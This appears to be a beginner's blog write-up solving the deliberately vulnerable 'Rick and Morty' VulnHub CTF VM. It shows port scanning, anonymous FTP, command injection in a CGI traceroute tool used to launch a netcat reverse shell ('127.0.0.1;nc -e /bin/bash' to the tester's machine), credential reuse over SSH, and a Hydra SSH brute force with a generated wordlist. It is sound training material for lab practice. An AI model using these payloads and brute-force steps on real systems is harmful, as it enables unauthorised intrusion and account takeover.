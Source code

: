 ```yaml
---
title: "Pentest: owning rick and morty VM"
categories:
  - Penetration-Testing
tags:
  - Pentest
  - ctf
  - exploits
---
```

My collegues told me about vulnhub, a website for peneteration tester to test their skills on boot2root VM's.
On the site you'll find multiple boxes, with various difficulty levels. Since I just started out, I tried to find an easy VM to test out my skills.
Quickly, I found the rick and morty VM, being a huge fan of the show, I wanted to have a look at it.
[You can find the VM here:](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)
A lot of vulnhub machines work with a capture the flag system, which means there are several files aka "flags" hidden in the machine, your goal is to collect them all. According to the discription this VM has 130 points worth of flags, our objective is to collect all points, and eventually get root access along the way...

**disclaimer: I'm a beginning peneteration tester so there are probably more efficient ways of owning this VM.**

### How I tackled this VM.

The first thing I did was do an nmap scan of the VM to find all open ports and hopefully some services.

` nmap 10.0.2.12 -p- -sV`

this gave us the following open ports and services:

```
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh?
80/tcp open http Apache httpd 2.4.27 ((Fedora))
9090/tcp open http Cockpit web service
13337/tcp open unknown
22222/tcp open ssh OpenSSH 7.5 (protocol 2.0)
60000/tcp open unknown

```

A good amount of open ports were found, now is the time to check them out:
* I started with the open ports I've never seen before which were 13337 & 60000:

  `nc 10.0.2.12 1337`
We found our first flag worth 10 points! only 120 points more to go...

* After finding that flag I switched to port 60000:

  `nc 10.0.2.12 60000`

This gave me some sort of shell, but with very little commands that could be used
I used `ls` and saw a FLAG.txt file `cat` revealed the content, it's worth 10 points! 110 more to go


* After this I checked port 9090, being a http protocol, I used my webbrowser:
  another flag found! 10 points, 30 down, 100 to go...

* Time to check the FTP connection
  `ftp 10.0.2.12`
  I tried the anonymous user and empty password in case it was using anonymous FTP, turns out that was a good call because I got in!
  there was a flag file present, again worth 10 points, so we already have 40 points and didn't even take a look at the web application yet..


* I accessed the website in my browser, being greeted by morty but other than that nothing special,...
  Time to use `dirb` to crawl the webpage and show any hidden folders:
  `dirb http://10.0.2.12`

  This showed me there was a `/cgi-bin/` folder present
  I browsed it and saw two tools there /cgi-bin/root_shell.cgi and tracertool.cgi

  Really? root_shell.cgi? after checking it out, it turned out to be trolling me.
  Let's take a look at the tracertool instead...

  This turned out to be a legit tool, filling in an ip did indeed do a tracert, this gave me an indication that OS commands where being used in this application, so I tried to just do `ls` instead of filling in an ip, this did not work, which is obvious because it's running a tracert, tracert ls won't work..
  So I tried the following: `127.0.0.1;ls` This worked! I got the contents of the current directory, I tried to exploit this further by checking if a tool called `netcad` was installed: `127.0.0.1;nc -h` turns out that it was indeed installed.

  Time to try and setup a shell to my kali machine, so I started a listener on my normal machine

  `nc -lvp <port to listen to>`

  and on the webtool I issued: `127.0.0.1;nc -e /bin/bash 10.0.2.10 <port> `

  Try and play with the ports to see if one works, I used port 4444

  et voila! We have a shell into the webserver ;)

  time to poke around a bit:
  going into the html folder and doing an `ls -lah` showed me a passwords folder!
  going to 10.0.2.12/passwords/ in the webbrowser revealed a flag, giving us another 10 points! We now have a total of 50 points
  There is a passwords.html page, this doesn't show much, but there is a comment from Rick saying he hid something but did not delete it, so I checked the source code and indeed, there was a password there called winter

  Now we have a password, but we don't know any users yet... lets try and `cat /etc/passwd` to see all users on this machine
  And we get trolled, the `cat` command got replaced to show us an ASCII cat.. awesome...
  `vi /etc/passwd` works.

   We see users called Summer,RickSanchez and Morty

* Winter is the last name of Summer in the show, so let's try SSH `ssh Summer@10.0.2.12 -p 22222` password Winter and voila, we are logged in with SSH onto the machine, we don't need our shell we established with the web vulnerability anymore, and another flag is waiting in Summers homedir, sweet!
10 points, 60 in total, going strong!

  I also found out using `ls -lah ` that Summer has read access to the other users directories, so naturally it's time to take a peek:
  Morty had some cool files in his directory, because the box we are in has limited tools, i copyed them over to my own machine using `scp -P 22222 Summer@10.0.2.12:/home/Morty/Safe_Password.jpg .` it's an image file and images have exif data, there is a password there!
  the password is Meeseek, I doubt that Rick or even Morty use Meeseek as password, there was also a file called journal.txt.zip
  I copied this over with `scp` using the same method as described above.
  trying to unzip this file prompts me for a password, I typed in Meeseek and I got in
  reading the journal gave us the flag 131333 worth 20 points, bringing our total to 80 already.
  In the journal morty talked about rick brabelling about a safe, and when checking Rick's direcotry there is indeed a safe, we copy it to our machine and execute it with the password 131333 and we get a message from Rick:


```
(This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order
1 uppercase character
1 digit
One of the words in my old bands name.

```
And we also got a flag worth another 20 points, bringing our points to 100, we are now close to the end!
If you don't watch Rick and Morty you can google what Rick's band name was, spoiler: it's called The Flesh Curtains
It's time to create a wordlist with the above specifics, you can tackle this by making your own script
which could look like this:

```
from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"
```

or you could just use crunch and be lazy :)

```
crunch 10 10 -t ,%Curtains -o ./wordlist.curtains
crunch 7 7 -t ,%Flesh -o ./wordlist.flesh
cat wordlist.curtains > wordlist
cat wordlist.flesh >> wordlist
```

Time to use Hydra and do a brute force attack!

`hydra -l RickSanchez -P wordlist ssh://192.168.56.102 -s 22222`

running this will give you the password (I'm not spoiling this one, do it yourself!)

Rick can escalate to root, and in root is the last flag! :) 
